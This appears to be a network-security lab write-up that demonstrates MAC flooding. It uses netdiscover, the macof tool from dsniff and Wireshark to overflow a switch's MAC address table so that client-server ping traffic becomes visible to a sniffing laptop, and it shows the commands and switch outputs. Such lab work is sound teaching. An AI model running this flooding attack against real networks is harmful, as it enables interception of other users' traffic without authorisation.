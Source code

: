 ```yaml
---
title: MAC flooding
---
```


# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    ![Success](./assets/flooding.png)

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    ![Success](./assets/capture.png)

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark. (Kali Linux)

    ![Success](./assets/capture2.png)

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    
    It is easy to change the behavior of switch to the behavior of a hub.